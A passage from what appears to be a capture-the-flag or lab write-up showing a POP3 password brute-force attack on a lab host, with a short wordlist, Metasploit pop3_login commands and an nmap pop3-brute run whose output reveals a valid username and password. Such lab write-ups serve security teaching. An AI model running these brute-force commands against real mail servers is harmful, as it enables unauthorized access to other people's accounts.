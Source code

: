 Passwords:

```bash
mailcall
bilbo101
apples01
skyler22
scoobydoo2
carp4ever
orlando12
07011972
```
{: .nolineno }

#### Using Metasploit:

```bash
➜  nano usernames.txt
➜  nano passwords.txt
➜  msfconsole -q
msf6 > search pop3

<< REDACTED >>

msf6 > use 3
msf6 auxiliary(scanner/pop3/pop3_login) > options

<< REDACTED >>

msf6 auxiliary(scanner/pop3/pop3_login) > set PASS_FILE passwords.txt
PASS_FILE => passwords.txt
msf6 auxiliary(scanner/pop3/pop3_login) > set USERNAME seina
USERNAME => seina
msf6 auxiliary(scanner/pop3/pop3_login) > set RHOSTS 10.10.148.76
RHOSTS => 10.10.148.76
msf6 auxiliary(scanner/pop3/pop3_login) > run
```
{: .nolineno }


#### Using Nmap

```bash
➜  nmap -p 110 --script pop3-brute --script-args userdb=usernames.txt,passdb=passwords.txt 10.10.148.76
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-17 23:05 EAT
Nmap scan report for 10.10.148.76
Host is up (0.16s latency).

PORT    STATE SERVICE
110/tcp open  pop3
| pop3-brute:
|   Accounts:
|     seina:scoobydoo2 - Valid credentials
|_  Statistics: Performed 79 guesses in 105 seconds, average tps: 0.5

Nmap done: 1 IP address (1 host up) scanned in 111.70 seconds
```
{: .nolineno }
